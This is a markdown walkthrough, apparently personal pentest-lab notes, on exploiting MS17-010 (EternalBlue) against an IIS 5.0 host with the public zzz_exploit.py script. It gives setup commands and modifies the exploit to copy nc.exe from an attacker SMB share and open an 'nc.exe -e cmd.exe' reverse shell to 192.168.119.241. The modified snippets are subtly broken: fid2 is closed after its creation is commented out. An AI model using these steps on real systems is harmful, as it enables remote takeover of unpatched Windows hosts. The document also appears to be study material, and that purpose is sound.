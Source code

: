 ```yaml
---
description: >-
  MS17-010
title: MS17-010              # Add title here
date: 2022-12-16 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, MS17-010]                     # Change Templates to Writeup
tags: [exploitation, ms17-010]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### IIS 5.0 

In order to exploit an IIS 5.0 server the zzz_exploit.py script that is to be found here: [MS17-010](https://github.com/worawit/MS17-010) is the best choice, first of all we need to create a virtual environment with python as this script use impacket that must be installed with python2, for this reason we need to follow this steps to create it:

1) Specify the python version
```python
virtualenv -p /usr/bin/python2.7 venv
```

2) Activate the virtual environment:
```python
source venv/bin/activate
```

3) Install the impacket repository:
```python
pip install impacket
```

In order to execute the script, the following command is needed:
```python
python2 zzz_exploit.py 10.11.1.227
```

By default, the exploit will only create a file under `C:\` called pwned.txt, as shown in the following lines of code of the exploit:
```python
def smb_pwn(conn, arch):
smbConn = conn.get_smbconnection()
print('creating file c:\\pwned.txt on the target')
tid2 = smbConn.connectTree('C$')
fid2 = smbConn.createFile(tid2, '/pwned.txt')
smbConn.closeFile(tid2, fid2)
smbConn.disconnectTree(tid2)

#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
# Note: there are many methods to get shell over SMB admin session
# a simple method to get shell (but easily to be detected by AV) is
# executing binary generated by "msfvenom -f exe-service ..."
```

If we need a reverse shell on the server we first need to upload a nc.exe binary, the easiest way to do it is using an smb share folder with impacket on Kali:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```

A slight modification must be made to copy the file on the victim machine, by copying the file from the SMB Shared Folder to the victim machine:

```bash
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        
        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
        service_exec(conn, r'cmd /c copy \\192.168.119.241\shareFolder\nc.exe nc.exe')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)
        
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```

Finally, we can bring up a nc connection as normal as follows:
```bash
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        
        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#        service_exec(conn, r'cmd /c copy \\192.168.119.241\shareFolder\nc.exe nc.exe')
        service_exec(conn, r'cmd /c nc.exe -e cmd.exe 192.168.119.241 1234')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)
        
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```